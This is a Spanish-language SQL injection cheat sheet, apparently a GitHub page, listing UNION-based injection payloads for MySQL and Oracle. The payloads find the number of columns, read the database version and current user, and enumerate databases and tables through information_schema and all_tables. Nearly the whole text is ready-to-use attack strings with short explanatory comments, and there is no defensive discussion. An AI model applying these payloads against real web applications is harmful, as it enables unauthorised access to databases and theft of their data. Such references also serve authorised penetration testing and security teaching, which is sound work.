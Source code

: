 ## Para saber el numero de columnas

```bash
# MYSQL

❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
❯ ' union select NULL,NULL,NULL -- -                  # Aveces solo acepta NULL en lugar de numeros
❯ ' union select "test",NULL,NULL -- -                # Podemos colocar texto 
❯ ' union select database(),NULL,user() -- -          # Queremos que muestre el nombre de la base de datos actual en uso, tambien podemos ver al usuario quien corre la base de datos

❯ ' union select NULL,@@version-- -                   # Mirar la version de MySQL y Microsoft
```

```bash 
# ORACLE

❯ ' union select NULL,NULL from dual-- -              # Dual es una tabla existente en Oracle
❯ ' union select NULL,banner from v$version-- -       # Mirar la version en Oracle
```

### Para saber las bases de datos (DB) existentes

```bash 
# MYSQL

❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
❯ ' union select schema_name from information_schema.schemata limit 0,1-- -          # Nos muestra la primer base de datos existente, la cual podemos ir variando, limitando a 1 resultado, el que varia es el '0' a 1,2,3, etc...
❯ ' union select group_concat(schema_name) from information_schema.schemata-- -      # Nos muestra todas las bases de datos existentes en una linea, pero separadas por comas
```

### Para saber las tablas de la base de datos (DB) especifica

```bash
# MYSQL

❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -  # Nos muestra las tablas existentes
❯ ' union select group_concat(table_name) from information_schema.tables where table_schema='❮DB_Name❯'-- -  # Nos muestra las tablas existentes, pero separadas por comas
❯ ' union select table_name from information_schema.tables limit 0,1-- -   # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
```

```bash 
# ORACLE

❯ ' union select table_name from all_tables-- -              # Nos muestra las tablas en Oracle
❯ ' union select owner from all_tables-- -                   # Nos muestra las tablas en Oracle de los propietarios
❯ ' union select table_name from all_tables where owner='❮owner_Name❯'-- -
```
